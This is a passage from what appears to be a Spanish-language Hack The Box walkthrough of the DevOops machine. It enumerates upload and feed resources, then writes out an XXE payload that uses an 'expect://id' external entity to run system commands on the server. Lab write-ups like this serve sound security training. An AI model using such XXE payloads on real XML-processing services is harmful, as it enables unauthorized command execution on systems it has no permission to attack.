 ```bash
Total time: 0
Processed Requests: 507
Filtered Requests: 505
Requests/sec.: 0
```

Tenemos dos recursos: `feed` y `upload`; por lo tanto, vamos a echarles un ojo. Vemos que para  `feed` tenemos el la misma imagen que observamos anteriormente y para `upload` se ve que podemos subir un archivo y nos indican *XML elements: Author, Subject, Content*, asi que debe ser un archivo xml que debe contener dichos elementos. Para observar que hace el sitio, vamos a crear un archivo de prueba:

```xml
<elements>
        <Author>K4miyo</Author>
        <Subject>Test</Subject>
        <Content>Esto es un test</Content>
</elements>
```

Y vamos a subirlo al servidor:

![](/assets/images/htb-devoops/devoops-xml.png)

Vemos que nos nuestra nuestra información de prueba y además tenemos un recurso donde almacena dicho archivo `/uploads/test.xml`. A este punto ya debemos estar pensando en un ***[XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) (XML External Entity)***. Asi que vamos a modificar nuestro archivo para obtener ejecución de comandos a nivel de sistema. (**Nota**: Para evitar problemas del lado del servidor y que no nos interprete la información, debemos cambiar el nombre del archivo).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<elements>
        <Author>&xxe;</Author>
        <Subject>Test</Subject>
        <Content>Esto es un test</Content>
</elements>
```
